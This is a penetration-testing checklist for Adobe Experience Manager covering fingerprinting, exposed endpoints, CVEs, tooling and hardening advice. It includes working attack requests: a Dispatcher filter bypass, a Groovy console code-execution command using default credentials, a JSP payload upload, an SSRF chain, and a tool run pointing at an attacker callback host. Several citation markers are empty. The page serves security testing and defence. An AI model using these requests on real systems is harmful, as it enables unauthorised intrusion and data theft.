 # AEM (Adobe Experience Manager) Pentesting

> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) is an enterprise CMS that runs on top of Apache Sling/Felix (OSGi) and a Java Content Repository (JCR).  
> From an attacker perspective AEM instances very often expose dangerous development endpoints, weak Dispatcher rules, default credentials and a long tail of CVEs that are patched every quarter.

The checklist below focuses on **externally reachable (unauth) attack surface** that keeps showing up in real engagements (2022-2025).

---

## 1. Fingerprinting

```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```

Other quick indicators:
* `/etc.clientlibs/` static path present (returns JS/CSS).  
* `/libs/granite/core/content/login.html` login page with the “Adobe Experience Manager” banner.  
* `</script><!--/* CQ */-->` comment at the bottom of HTML.

---

## 2. High-value unauthenticated endpoints

Path | What you get | Notes
---- | ------------- | -----
`/.json`, `/.1.json` | JCR nodes via **DefaultGetServlet** | Often blocked, but *Dispatcher bypass* (see below) works.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Leak of page tree, internal paths, user names.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix console | 403 by default; if exposed & creds found ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Allows authenticated content packages → JSP payload upload.
`/etc/groovyconsole/**` | AEM Groovy Console | If exposed → arbitrary Groovy / Java execution.
`/libs/cq/AuditlogSearchServlet.json` | Audit logs | Information disclosure.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dump | XSS vector.

### Dispatcher bypass trick
Most production sites sit behind the *Dispatcher* (reverse-proxy). Its filter rules can be bypassed by appending an allowed static extension **after a semicolon or encoded newline**:

```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
A single request like above frequently discloses user profile nodes with email addresses. P-T Partners published good guidance on this weakness. 【】

---

## 3. Common misconfigurations (still alive in 2025)

1. **Anonymous POST servlet** – `POST /.json` with `:operation=import` lets you plant new JCR nodes.  Blocking `*.json` POST in the Dispatcher fixes it. 【】
2. **World-readable user profiles** – default ACL grants `jcr:read` on `/home/users/**/profile/*` to everyone.
3. **Default credentials** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** enabled ⇒ reflected XSS via `?debug=layout` (CVE-2016-7882, still found on legacy 6.4 installs).
5. **Groovy Console exposed** – remote code execution by sending a Groovy script:
   ```bash
   curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
   ```

---

## 4. Recent vulnerabilities (service-pack cadence)

Quarter | CVE | Affected | Impact
------- | --- | -------- | ------
Dec 2024 | **CVE-2024-43711** | 6.5.21 and earlier | Improper input validation → **Arbitrary code execution** (requires low-priv auth). 【】
Dec 2024 | CVE-2024-43724/26 | 6.5.21 and earlier | DOM / Stored XSS in Move Page Wizard. 【】
Dec 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-based XSS via crafted URL. 【】
Dec 2022 | CVE-2022-30683 | ≤ 6.5.13 | Crypto design flaw → secret decryption (needs low-priv creds). 【】

Always check the *APSB* bulletin matching the customer’s service-pack and request the latest **6.5.22** or *Cloud Service 2024.11*.

---

## 5. Exploitation snippets

### 5.1 RCE via dispatcher bypass + JSP upload
If anonymous write is possible:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Now request `/content/evil.jsp` – the JSP runs with the AEM process user.

### 5.2 SSRF to RCE (historical < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`  
`aem_ssrf2rce.py` from **aem-hacker** automates the full chain. 【】

---

## 6. Tooling

* **aem-hacker** – Swiss-army enumeration script, supports dispatcher bypass, SSRF detection, default-creds checks and more.  
  ```bash
  python3 aem_hacker.py -u https://target --host attacker-ip
  ```【】
* **Content Brute-force** – recursively request `/_jcr_content.(json|html)` to discover hidden components.
* **osgi-infect** – upload malicious OSGi bundle via `/system/console/bundles` if creds available.

---

## 7. Hardening checklist (for your report’s recommendations)

1. Keep instance on the **latest cumulative service pack** (as of Jul 2025: 6.5.22).  
2. Remove/rotate default accounts; enforce SSO/SAML.
3. Tighten **Dispatcher filters** – deny `;`, encoded newlines, and `*.json` or `*.querybuilder.json` for anonymous users.
4. Disable or protect consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) with IP allow-lists.
5. Apply the *Anonymous Permission Hardening* package shipped by Adobe.

## References

* Adobe Security Bulletin APSB24-69 – “Security updates for Adobe Experience Manager (Dec 2024)”.
* 0ang3el – aem-hacker tool (GitHub).


